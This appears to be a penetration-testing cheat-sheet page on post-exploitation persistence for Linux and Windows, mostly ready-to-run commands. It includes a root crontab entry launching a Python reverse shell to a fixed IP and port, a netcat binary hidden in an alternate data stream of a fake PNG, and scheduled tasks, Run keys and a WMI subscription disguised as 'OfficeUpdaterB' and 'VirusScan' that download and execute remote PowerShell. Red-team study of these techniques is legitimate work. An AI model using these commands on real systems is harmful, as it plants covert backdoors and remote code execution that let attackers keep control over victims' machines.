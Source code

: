 ```yaml
---
title: Persistance
category: Post-Exploitation
order: 101
---
```


>**Linux**

{% highlight bash %}
#setsid
setsid *command*

#add user and alternate ssh port
sudo usermod -a -G sudo sshdd
vi /etc/ssh/sshd_config (add port)
sudo service ssh restart

#add to crontab
sudo nano /etc/crontab
*/5 * * * *     root    python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.128.0.186",8282));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
{% endhighlight %}

>**Windows**

ADS and Scheduled Task (user level) |  <code> type c:\tools\nc.exe > c:\nice.png:nc.exe  </code>
ADS and Scheduled Task (user level) |  <code> start c:\nice.png:nc.exe  </code>
ADS and Scheduled Task (user level) |  <code> start c:\nice.png:nc.exe  </code>
Schduled Task | <code> schtasks /create /tn OfficeUpdaterB /tr "c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''[]'''))'" /sc onstart /ru System </code>
Scheduled Task | <code> schtasks /create /tn OfficeUpdaterB /tr "c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''https://website/page'''))'" /sc daily /st 12:53 </code>
Run Key | <code> REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "OfficeUpdaterB" /t REG_SZ /F /D "c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c \"IEX ((new-object net.webclient).downloadstring('https://website/page'))\"" </code>



WMI Persistence:

{% highlight bash %} 
wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter CREATE Name="VirusScan", EventNameSpace="root\cimv2", QueryLanguage="WQL", Query="SELECT * FROM Win32_ProcessStartTrace WHERE ProcessName='notepad.exe'" 
wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer CREATE Name="VirusScan", CommandLineTemplate="powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('https://URL.com/file'))\""
wmic /NAMESPACE:"\\root\subscription" PATH __FilterToConsumerBinding CREATE Filter="__EventFilter.Name=\"VirusScan\"", Consumer="CommandLineEventConsumer.Name=\"PushVirusScan\""
wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter GET __RELPATH /FORMAT:list
wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer GET __RELPATH /FORMAT:list
wmic /NAMESPACE:"\\root\subscription" PATH __FilterToConsumerBinding GET __RELPATH /FORMAT:list
{% endhighlight %}

>**MAC**
* [VSCode](https://www.mdsec.co.uk/2021/01/macos-post-exploitation-shenanigans-with-vscode-extensions/)

* http://pwnwiki.io/#!persistence/windows/index.md
* http://www.fuzzysecurity.com/tutorials/19.html
* http://www.hexacorn.com/blog/category/autostart-persistence/page/8/
* https://attack.mitre.org/wiki/Persistence
